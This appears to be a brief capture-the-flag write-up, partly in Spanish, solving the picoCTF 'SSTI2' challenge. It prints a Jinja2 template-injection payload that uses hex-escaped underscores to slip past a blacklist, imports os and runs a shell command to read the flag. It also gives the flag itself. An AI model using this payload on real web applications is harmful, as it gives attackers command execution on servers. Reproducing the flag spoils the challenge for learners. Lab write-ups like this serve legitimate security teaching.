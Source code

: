 
## SSTI2
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:58506/)!

Hints:
1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?

## Solución:

//Ingresar este  y darle OK
```

{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')() }}



Flag: picoCTF{sst1_f1lt3r_byp4ss_e964f71b}

```

//Link de ayuda
https://aathilducky.com/ssti2-picoctf-walkthrough-web-exploitation-challenge-guide/

